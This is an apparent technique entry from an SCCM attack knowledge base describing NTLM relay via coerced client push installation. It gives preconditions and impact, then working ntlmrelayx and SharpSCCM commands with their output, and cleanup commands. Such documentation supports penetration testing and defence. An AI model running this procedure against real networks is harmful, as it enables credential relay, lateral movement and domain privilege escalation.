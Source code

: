 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < 5 or not present, or = `5` and LmCompatibilityLevel >= 3 on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as Domain Admins for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its machine account. If SMB is used, TAKEOVER-1 and TAKEOVER-2 may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server.

## Defensive IDs


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

```
# impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
[2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
[2024-02-26 15:49:50] [*] Running in relay mode to single host
[2024-02-26 15:49:50] [*] Setting up SMB Server
[2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
[2024-02-26 15:49:50] [*] Setting up WCF Server
[2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

[2024-02-26 15:49:50] [*] Servers started, waiting for connections
```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

```
SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

[+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
[+] Reusable Base64-encoded certificate:

    308209D2...020207D0

[+] Discovering local properties for client registration request
[+] Modifying client registration request properties:
      FQDN: <NTLMRELAYX_LISTENER_IP>
      NetBIOS name: <NTLMRELAYX_LISTENER_IP>
      Site code: <SITECODE>
[+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
[+] Received unique SMS client GUID for new device:

    GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

[+] Discovering local properties for DDR inventory report
[+] Modifying DDR and inventory report properties
[+] Discovered PlatformID: Microsoft Windows NT Server 10.0
[+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
[+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
[+] Completed execution in 00:00:16.1952455
```

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
```
[2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
[2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
```

Note: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having Full Administrator privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With Full Administrator access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the administration console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Chris Thompson, SharpSCCM, https://github.com/Mayyhem/SharpSCCM